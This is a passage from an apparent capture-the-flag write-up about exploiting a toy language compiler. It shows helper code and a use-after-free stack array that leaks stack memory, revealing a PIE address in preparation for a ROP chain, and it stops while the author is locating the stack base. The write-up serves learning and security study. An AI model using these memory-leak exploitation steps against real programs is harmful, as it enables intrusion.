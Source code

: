 ```python
        print_hex_num(div)
    dig = n % 16
    if dig < 10:
        putc(48 + dig)
    else:
        putc(97 + dig - 10)

def print_arr(s):
    for i in range(1000):
        print_num(i)
        putc(32)
        print_hex_num(fetch(s, i))
        putc(44)
        putc(32) # ' '
    putc(0xa)
```

I also used a way bigger array. The reasoning is simple: The crash I was seeing before, was the local variables of `test2` corrupting my freed array. By making the array very large, `type` and `size` would be very low on the stack and hence not easily corrupted.

Combining this, I can easily print a bunch of the stack as follows:

```python
# ... helpers from above

# creates array on stack
# but after we return the stack frame is gonna be invalid!
def create_freed_array():
    a = array(1000)
    return a

def main():
    b = 0x41414242
    a = create_freed_array()
    print_arr(a)
```

We get the following output:

```
0 0, 1 0, 2 0, 3 0, ..., 969 0, 970 0, 971 0, 972 0, 973 0, 974 0, 975 0, 976 0, 977 0, 978 0, 979 0, 980 0, 981 0, 982 0, 983 0, 984 0, 985 7ffe799f4ca8, 986 55623a9e012d, 987 1, 988 7ffe799f4cc8, 989 7ffe799f4cc8, 990 55623a9e012d, 991 1, 992 7ffe799f4ce8, 993 7ffe799f4ce8, 994 55623a9e012d, 995 3e3, 996 7ffe799f4d08, 997 55623a9e02a6, 998 3e6, 999 7ffe799f2dc0
```

By looking at the mappings of our process, we can immediately identify a PIE leak.
This is useful, as the compiled binary is PIE and we probably want to ROP.

### Figuring out the stack base

I also wanted to figure out the stack base, to allow more easily working with the stack.
I started by taking a random address that looked like it was a stack address and calculating the offset by looking at the actual stack location.
However, this always gave me wrong results and they were not even page aligned!
